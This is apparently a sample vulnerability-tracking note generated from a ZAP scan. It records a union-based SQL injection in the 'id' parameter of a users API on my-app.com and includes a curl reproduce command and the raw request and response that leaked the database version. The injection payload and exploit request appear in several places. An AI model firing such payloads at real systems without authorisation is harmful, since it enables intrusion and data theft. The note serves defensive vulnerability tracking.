 ```yaml
---
occurrenceId: occ-9c0d1e2f
findingId: fin-d1a7e8b9
definitionId: def-40018
pluginId: "40018"
name: "GET /api/v1/users?id=1 UNION SELECT 1,2,version()--"
url: "https://my-app.com/api/v1/users"
method: "GET"
param: "id"
attack: "1 UNION SELECT 1,2,version()--"
evidence: "union-based SQLi leaked DB version in response"
risk: "High"
riskcode: "3"
confidence: "Medium"
sourceid: ""
scan:
  label: "Run 2025-08-19"
domain:
  label: "my-app"
analyst:
  status: "open"
---
```


# SQL Injection occurrence: union-based

> [!summary]
> - Finding: [[sample-sqli-finding|SQL Injection - /api/v1/users]]
> - Param: `id`
> - Attack: `1 UNION SELECT 1,2,version()--`
> - Evidence: database version exposed
> - Status: open

## Reproduce
```bash
curl -sS "https://my-app.com/api/v1/users?id=1%20UNION%20SELECT%201,2,version()--" -H "Accept: application/json"
```

## Traffic

### Request
```
GET /api/v1/users?id=1%20UNION%20SELECT%201,2,version()-- HTTP/1.1
Host: my-app.com
User-Agent: ZAP
Accept: application/json
```

### Response
```
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8

[{"id":1,"name":"PostgreSQL 14.5 on x86_64-pc-linux-gnu"}]
```

